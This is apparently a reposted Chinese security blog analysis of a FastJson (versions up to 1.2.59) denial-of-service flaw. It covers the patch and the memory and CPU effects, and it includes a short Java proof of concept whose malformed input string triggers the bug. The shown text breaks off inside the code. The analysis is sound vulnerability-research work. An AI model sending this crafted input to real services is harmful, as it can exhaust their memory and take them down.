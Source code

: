 > 原文链接: https://www.anquanke.com//post/id/185964 


# FastJson拒绝服务漏洞分析


                                阅读量   
                                **537706**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">5</a>
                                </b>
                                                                                    



![](https://p1.ssl.qhimg.com/t01c9994900763f71eb.png)



作者:fnmsd[@360](https://github.com/360)云安全

## 前言

从[@badcode](https://github.com/badcode)师傅那里知道了这么漏洞，尝试着分析复现一下，影响范围fastjson&lt;=1.2.59。

感谢[@pyn3rd](https://github.com/pyn3rd)师傅对OOM机制的讲解。

该漏洞会导致java进程的占用内存迅速涨到JVM允许的最大值（-Xmx参数，默认为1/4物理内存大小），并且CPU飙升。

该漏洞并不能直接打挂java进程，但是可能由于java进程占用内存过大，导致被系统的OOM Killer杀掉。



## 补丁

github上的diff：

![](https://p0.ssl.qhimg.com/t012ec80aa4b2c97543.png)

scanString针对JSON中x字符的处理，加入了判断后两个字符是否为hex字符，不为hex字符，直接退出。

![](https://p0.ssl.qhimg.com/t01b2fb36b921c3b9f8.png)

还有isEOF方法也进行了逻辑完善。



## 测试代码

简化了一下，原版的可以看引用里的链接：

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONException;

public class fastjsonDos `{`
    public static void main(String[] args)`{`
        //`{`"a":"x
        //漏洞是由于fastjson处理字符串中x这种HEX字符表示形式出现的问题。
        String DEATH_STRING = "`{`"a":"\x";//输入字符串长度为8
        try`{`
            Object obj = JSON.parse(DEATH_STRING);
            System.out.println(obj);
        `}`catch (JSONException ex)`{`
            System.out.println(ex);
        `}`
```